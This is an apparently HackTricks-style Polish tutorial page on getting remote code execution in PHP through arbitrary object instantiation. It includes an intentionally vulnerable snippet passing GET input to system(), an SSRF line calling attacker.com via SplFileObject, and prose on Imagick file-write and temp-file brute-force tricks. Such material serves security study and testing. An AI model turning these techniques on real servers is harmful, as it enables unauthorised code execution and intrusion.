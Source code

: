 # PHP - RCE nadużywanie tworzenia obiektów: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

To jest zasadniczo podsumowanie [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Wprowadzenie

Tworzenie nowych, dowolnych obiektów, takich jak `new $_GET["a"]($_GET["a"])`, może prowadzić do zdalnego wykonania kodu (RCE), jak szczegółowo opisano w [**opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Dokument ten podkreśla różne strategie osiągania RCE.

## RCE za pomocą klas niestandardowych lub autoloadingu

Składnia `new $a($b)` jest używana do instancjonowania obiektu, gdzie **`$a`** reprezentuje nazwę klasy, a **`$b`** jest pierwszym argumentem przekazywanym do konstruktora. Te zmienne mogą pochodzić z danych wejściowych użytkownika, takich jak GET/POST, gdzie mogą być ciągami lub tablicami, lub z JSON, gdzie mogą występować jako inne typy.

Rozważ poniższy fragment kodu:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
W tym przypadku ustawienie `$a` na `App` lub `App2` oraz `$b` na polecenie systemowe (np. `uname -a`) skutkuje wykonaniem tego polecenia.

**Funkcje autoloading** mogą być wykorzystywane, jeśli takie klasy nie są bezpośrednio dostępne. Te funkcje automatycznie ładują klasy z plików w razie potrzeby i są definiowane za pomocą `spl_autoload_register` lub `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Zachowanie autoloadingu różni się w zależności od wersji PHP, oferując różne możliwości RCE.

## RCE za pomocą wbudowanych klas

Brakując niestandardowych klas lub autoloaderów, **wbudowane klasy PHP** mogą wystarczyć do RCE. Liczba tych klas waha się od 100 do 200, w zależności od wersji PHP i rozszerzeń. Można je wylistować za pomocą `get_declared_classes()`.

Konstruktory, które mogą być interesujące, można zidentyfikować za pomocą API refleksji, jak pokazano w poniższym przykładzie oraz w linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE za pomocą konkretnych metod obejmuje:**

### **SSRF + Deserializacja Phar**

Klasa `SplFileObject` umożliwia SSRF poprzez swój konstruktor, pozwalając na połączenia z dowolnym URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF może prowadzić do ataków deserializacji w wersjach PHP przed 8.0 przy użyciu protokołu Phar.

### **Wykorzystywanie PDO**

Konstruktor klasy PDO umożliwia połączenia z bazami danych za pomocą ciągów DSN, co potencjalnie umożliwia tworzenie plików lub inne interakcje:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Wersje PHP do 5.3.22 i 5.4.12 były podatne na ataki XXE za pośrednictwem konstruktorów `SoapClient` i `SimpleXMLElement`, w zależności od wersji libxml2.

## RCE za pomocą rozszerzenia Imagick

W analizie **zależności projektu** odkryto, że **Imagick** może być wykorzystany do **wykonywania poleceń** poprzez instancjonowanie nowych obiektów. Stwarza to możliwość wykorzystania luk w zabezpieczeniach.

### Parser VID

Zidentyfikowano zdolność parsera VID do zapisywania treści w dowolnie określonej ścieżce w systemie plików. Może to prowadzić do umieszczenia powłoki PHP w katalogu dostępnym przez sieć, osiągając zdalne wykonanie kodu (RCE).

#### Parser VID + Przesyłanie plików

Zauważono, że PHP tymczasowo przechowuje przesyłane pliki w `/tmp/phpXXXXXX`. Parser VID w Imagick, wykorzystując protokół **msl**, może obsługiwać znaki wieloznaczne w ścieżkach plików, co ułatwia przeniesienie tymczasowego pliku do wybranej lokalizacji. Ta metoda oferuje dodatkowe podejście do osiągnięcia dowolnego zapisu plików w systemie plików.

### Awaria PHP + Atak Brute Force

Metoda opisana w [**oryginalnym opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) polega na przesyłaniu plików, które powodują awarię serwera przed usunięciem. Poprzez atak brute force na nazwę tymczasowego pliku, możliwe jest, aby Imagick wykonał dowolny kod PHP. Jednak ta technika okazała się skuteczna tylko w przestarzałej wersji ImageMagick.

## Referencje

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
